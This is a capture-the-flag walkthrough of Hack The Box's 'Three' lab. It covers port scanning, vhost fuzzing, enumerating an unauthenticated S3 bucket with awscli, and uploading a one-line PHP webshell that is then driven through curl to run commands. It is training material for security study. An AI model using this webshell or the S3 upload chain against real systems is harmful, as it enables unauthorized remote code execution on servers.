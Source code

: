 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Three

## Summary

## Summary

As one of Starting Point's Tier 1 boxes, [Three](https://app.hackthebox.com/starting-point) offers a direct approach to **web fuzzing** and **AWS S3** exploration. By initially **enumerating a domain name** through the webpage and proceeding to fuzz it, we uncover an **S3 bucket**. Further enumeration exposes **misconfigurations** in the S3 bucket, granting us access to its contents and the ability to upload files. Leveraging this vulnerability, we successfully upload a **webshell** and gain control over the `flag.txt` file, ultimately compromising the system.

<table><thead><tr><th width="88" align="right">Step</th><th width="235">Action</th><th width="153">Tool</th><th>Gained</th></tr></thead><tbody><tr><td align="right">1</td><td>Web server enumeration</td><td>Browser</td><td>Domain name</td></tr><tr><td align="right">2</td><td>Fuzzing</td><td><a href="broken-reference">gobuster</a></td><td>S3 bucket</td></tr><tr><td align="right">3</td><td>AWS Enumeration</td><td><a href="../../tools/web/cloud/aws.md#usage">awscli</a></td><td>Foothold path</td></tr><tr><td align="right">4</td><td>Webshell upload</td><td><a href="../../tools/web/cloud/aws.md#usage">awscli</a>, <a href="../../tools/web/curl.md">curl</a>, <a href="broken-reference">jq</a></td><td>Foothold</td></tr></tbody></table>

## Recon

### Port Scan

Let's start with a port-scan using [Nmap](broken-reference).

```bash
$ sudo nmap -T4 -open -sC -sV 10.129.206.82

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: The Toppers
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are just 2 services listening:

1. An SSH service on port `22`, but we don't have credentials to use it.
2. An Apache web server on port `80` which probably be the focus on this box.

### Web Server Enumeration

By visiting the IP address via our browser we encounter a static site; nothing really works. The only useful thing there is a domain name (`thetoppers.htb`) on the `CONTACT` page (Figure 1).

<figure><img src="../../.gitbook/assets/three_contact.png" alt=""><figcaption><p>Figure 1: The <code>thetoppers.htb</code> domain on the <code>CONTACT</code> page.</p></figcaption></figure>

Before moving forward, we will add it on our local DNS file (`/etc/hosts`) and we will also check what technologies this site uses.

{% code overflow="wrap" %}
```bash
# Confirming that the domain was added to our local file
$ grep toppers /etc/hosts
10.129.206.82   thetoppers.htb
# Checking the technologies used on the site
$ whatweb thetoppers.htb
http://thetoppers.htb [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], Email[mail@thetoppers.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.129.206.82], Script, Title[The Toppers]
```
{% endcode %}

### Fuzzing

Next, we can start our [fuzzing](../../tl-dr/web/dirbusting.md) scans. We will check for potential subdirectories, subdomains, and vhosts.

{% code overflow="wrap" %}
```bash
# Scanning for subdirectories
gobuster dir -u http://thetoppers.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php
# Scanning for subdomains
gobuster dns -d thetoppers.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -i
# Scanning for virtual hosts
gobuster vhost -u http://thetoppers.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain
```
{% endcode %}

The scan for subdirectories comes back with only the homepage (`/index.php`) and an `/images` directory, whereas the vhost scan returns nothing. Luckily, we were able to find out some vhosts (Figure 2).

<figure><img src="../../.gitbook/assets/three_vhosts.png" alt=""><figcaption><p>Figure 2: Scanning for virtual hosts with <code>gobuster</code>.</p></figcaption></figure>

Before trying to access `s3.thetoppers.htb` we will need to first add it on our `/etc/hosts` file.

```bash
$ grep thetop /etc/hosts
10.129.206.82   thetoppers.htb s3.thetoppers.htb
```

### Foothold

### AWS Enumeration

`S3` is the [Amazon's Simple Storage Service (AWS S3)](https://aws.amazon.com/s3/) and there are specific tools to interact with it, such as [`awscli`](../../tools/web/cloud/aws.md). Before interacting with an S3 bucket we need to configure our connection, typically, using the AWS Access and Secret keys. However, an S3 bucket can also be misconfigured, i.e., do not check for authentication. If the latter case is true, we can configure it using anything we wish.

After doing that (Figure 3.1), we can proceed on listing the S3 buckets that are available on the server (Figure 3.2), and if we find one, what's in it (Figure 3.3).

```bash
# Configuring AWS connection
$ aws configure
AWS Access Key ID [****************temp]: temp
AWS Secret Access Key [****************temp]: temp
Default region name [temp]: temp
Default output format [temp]: temp

# Listing all s3 server buckets
$ aws --endpoint=http://s3.thetoppers.htb s3 ls
2024-04-29 06:46:43 thetoppers.htb

# Listing all files within the specified s3 bucket
$ aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
                           PRE images/
2024-04-29 06:46:43          0 .htaccess
2024-04-29 06:46:43      11952 index.php
```

<figure><img src="../../.gitbook/assets/three_aws_listings.png" alt=""><figcaption><p>Figure 3: Configuring and exploring the S3 vhost. </p></figcaption></figure>

We notice that the `s3://thetoppers.htb` bucket contains the `index.php` file and the `images/` directory; the same files we found during our [directory scan](three.md#fuzzing) before. Thus, we can safely infer that this is the webroot (`http://thetoppers.htb`) of the static web site.

### RCE[^1]

Since we know the site's webroot as well as the programming language used (based on the `index.php` file), we can try to create a PHP file (`shell.php`) containing a [PHP webshell](broken-reference), upload it on the S3 bucket, and try to interact with it (Figure 4).

```php
<?php system($_GET['cmd']); ?>
```

```bash
# Uploading our web shell to the S3 bucket
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
# Interacting with the web shell
curl http://thetoppers.htb/shell.php?cmd=id
curl http://thetoppers.htb/shell.php?cmd=pwd
```

<figure><img src="../../.gitbook/assets/three_webshell.png" alt=""><figcaption><p>Figure 4: Uploading the web shell file to S3 and interacting with it. </p></figcaption></figure>

We could continue by uploading a reverse shell script in addition to the web shell, but for the sake of simplicity we won't. In order to find the `flag.txt` file, we will need to explore the host using commands which includes spaces, such as `ls ../` (Figure 5.1).  For achieving that through our webshell, we will need to [URL-encode](../../tools/crypto.md#url) our commands, in this case use the `+` symbol instead of space (Figure 5.2). We can also use a more "advanced" technique including bash command substitution, `jq` and a pipe (`|`) to pass any command we like "directly" to it (Figure 5.3).

<figure><img src="../../.gitbook/assets/three_flag.png" alt=""><figcaption><p>Figure 5: Using URL-encoding to find and read the flag.</p></figcaption></figure>

[^1]: Remote Code Execution
